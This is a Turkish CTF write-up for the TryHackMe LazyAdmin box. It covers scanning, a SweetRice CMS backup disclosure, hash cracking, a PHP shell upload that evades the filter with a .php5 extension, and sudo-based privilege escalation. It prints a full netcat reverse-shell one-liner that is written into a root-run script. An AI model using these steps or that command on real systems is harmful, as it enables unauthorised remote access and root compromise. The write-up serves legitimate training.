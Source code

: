 ```yaml
---
title: "TryHackMe LayzAdmin WriteUp"
header:
 
categories:
   - CTF
   - TryHackMe
tag:
   -TryHackMe
---
```


## Nmap

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/nmap.png){: .align-center}

Dirb ile hidden directory tespit etmeye çalıştığımda content ve content/as isimli iki adet dizini tespit ettim.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/dirb.png){: .align-center}

hedefIP/content sayfasını ziyaret ettiğimde management system olarak SweetRice kullanıldığı görüntülenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sweet.png){: .align-center}

SweetRice hakkında zafiyet araştırması yapıldığında ise birden fazla çıktı görüntülenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sweetRice.png){: .align-center}

SweetRice 1.5.1 - Backup Disclosure zafiyeti “http://localhost/inc/mysql_backup" end pointinde yedeklerin disclosure olduğunu gördüm.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/backup.png){: .align-center}

Backup dosyası içerisinde bir kullanıcı adı ve hashlenmiş haldeki parolayı buldum. Hash’i CrackStation kullanarak kırdığımda parolaya ulaştım.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/crackstation.png){: .align-center}

/content/as sayfası SweetRice'ın login sayfasıdır. Elde edilen kimlik bilgileri ile giriş yapıldıktan sonra potansiyel güvenlik zafiyetleri araştırılmaktadır. Tema sekmesinde reverse shell include edilerek hedef sistemde erişim hedeflenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/contentas.png){: .align-center}

Fakat yüklenilen dosyaya erişilememektedir. Bu yüzden farklı bir giriş noktası olan MediaCenter sekmesi ziyaret edilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/mediacenter.png){: .align-center}

.php uzantılı shell yüklendiğinde sistem kabul etmemektedir fakat .php5 olarak uzantısı değiştirip yüklendiğinde sistem kabul etmektedir. Saldırı makinesinde ilgili port dinlenerek exploit tetiklenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/netcat.png){: .align-center}

User.txt

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/userflag.png){: .align-center}

Yetki yükseltmek için "sudo -l" yapıldığında perl ve backup.pl dosyalarının super user yetkileri ile çalışabildiği görüntülenmektedir. Ek olarak SUID bitleri incelendiğinde herhangi bir şey tespit edilememektedir.

backup.pl dosyası /etc/copy.sh dosyasını yürütmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/backupl.png){: .align-center}

copy.sh dosyası incelendiğinde ise dosya üzerinde değişiklik yapabilme (yazma) yetkisine sahip olunduğu gözlemlenmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/copysh.png){: .align-center}

copy.sh dosyasının içeriğini “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.63.80 1235 >/tmp/f”  ile değiştirilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/echo.png){: .align-center}

"sudo -l" çıktısında görüntülenen backup.pl dosyası super user yetkileriyle çalışmaktadır ve içeriği değiştirilen, root yetkilerine erişmeye yardımcı dosyayı çalıştırmaktadır. İlgili port dinlenerek backup.pl dosyası çalıştırılmaktadır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/sudo.png){: .align-center}

Sonuç olarak yetki yükseltme gerçekleşmektedir ve root.txt dosyasının içeriği elde edilmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/layzAdmin/rootflag.png){: .align-center}